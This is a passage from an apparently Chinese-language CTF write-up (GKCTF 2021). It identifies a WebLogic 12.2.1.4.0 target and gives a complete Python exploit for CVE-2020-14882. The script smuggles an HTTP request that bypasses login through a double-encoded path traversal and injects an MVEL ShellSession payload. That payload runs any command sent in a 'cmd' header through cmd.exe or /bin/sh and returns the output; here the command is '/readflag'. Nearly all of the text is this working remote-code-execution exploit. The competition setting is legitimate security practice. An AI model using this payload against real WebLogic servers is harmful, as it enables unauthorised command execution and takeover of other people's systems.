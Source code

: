 得到weblogic版本为12.2.1.4.0,这个版本正好在 CVE-2020-14882 的范围内，使用CVE-2020-14882，%252e%252e绕过登录直接打

```python
import socket

sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sSocket.connect(("node4.buuoj.cn", 25369))
payload = b'HEAD / HTTP/1.1\r\nHost: node4.buuoj.cn\r\n\r\nGET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1\r\nHost:weblogic\r\ncmd: /readflag\r\n\r\n'
#payload = b'GET /a HTTP/1.1\r\nHost: node3.buuoj.cn\r\nContent-Length: 66\r\n\r\nGET /console/login/LoginForm.jsp HTTP/1.1\r\nHost: weblogic\r\n\r\n'
sSocket.send(payload)
sSocket.settimeout(2)
response = sSocket.recv(2147483647)
while len(response) > 0:
    print(response.decode())
    try:
        response = sSocket.recv(2147483647)
    except:
        break
sSocket.close()

```

就可以拿到flag



##  参考文章

http://w4nder.top/index.php/2021/06/28/gkctf2021/#post-images-15

https://laotun.top/2021/09/27/gkctf2021-web%E5%A4%8D%E7%8E%B0/

